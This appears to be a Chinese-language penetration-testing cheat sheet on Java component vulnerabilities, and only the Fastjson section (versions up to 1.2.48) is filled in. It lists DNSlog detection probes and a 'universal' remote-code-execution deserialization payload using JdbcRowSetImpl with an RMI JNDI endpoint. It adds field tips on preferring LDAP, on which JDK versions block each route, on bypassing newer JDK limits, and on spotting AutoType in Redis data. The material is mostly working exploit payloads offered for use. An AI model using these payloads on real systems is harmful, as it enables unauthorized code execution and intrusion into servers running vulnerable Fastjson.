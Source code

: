 

# JAVA组件漏洞

[fastjson](#Fastjson)



## 1. Fastjson

### 	1.1 版本 <= 1.2.48

### 		1.1.1 回显

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### 		1.1.2  RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 		1.1.3 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了
LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了
LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制
当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## 2. Apache-poi

## 3. Shiro
